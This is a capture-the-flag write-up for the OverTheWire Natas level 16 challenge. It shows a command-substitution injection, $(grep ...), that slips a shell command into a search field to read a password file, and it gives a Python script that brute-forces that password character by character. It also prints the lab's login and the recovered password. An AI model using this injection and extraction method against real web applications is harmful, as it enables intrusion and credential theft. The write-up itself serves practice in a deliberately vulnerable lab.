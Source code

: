 🔐 **Level 16**

When accessing the website, we see a short message:  
![message](https://github.com/user-attachments/assets/e76a0c2f-161f-4174-b26b-aecd2bbb6616)

Clicking on **view source code** 📝 shows:  
<img width="1379" height="911" alt="image" src="https://github.com/user-attachments/assets/627548e0-3c2e-4d07-8a5f-294fb2f60f3d" />

It looks similar to previous challenges, but this time the command has been modified into:  
`grep -i "$key" dictionary.txt`  

Here, the `$key` is wrapped in **double quotes** and there is also a filter to block special characters ❌, so we cannot inject payloads the old way.  
👉 However, we can still use the `$(command)` format, which executes inside the quotes before the outer command.  

For example, trying:  
`$(grep ^a /etc/natas_webpass/natas17)pro`  
![grep test](https://github.com/user-attachments/assets/3bf976b8-1ed9-4ae3-a422-aeadbbb924cd)  

Since no password line starts with `a`, the inner `grep` returns nothing, and the outer `grep` just looks for `"pro"`.  

🔎 Using Burp Suite Intruder to brute-force, I noticed response length differences. So I wrote a Python script to automate brute-forcing:  

```python
import requests
import string

url = "http://natas16.natas.labs.overthewire.org"
auth = ('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')

charset = string.ascii_letters + string.digits
password = ""

for i in range(1, 33):
    for char in charset:
        payload = f"$(grep ^{password+char} /etc/natas_webpass/natas17)chicken"
        response = requests.get(url, auth=auth, params={"needle": payload})
        if int(len(response.text)) != 1153:
            password += char
            print(f"[+] Found char {i}: {char} → {password}")
            break

print(f"[✅] Full password for natas17: {password}")
```

Running this script 🔥 revealed the password:
✨ Final Password for Natas17:
```
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```
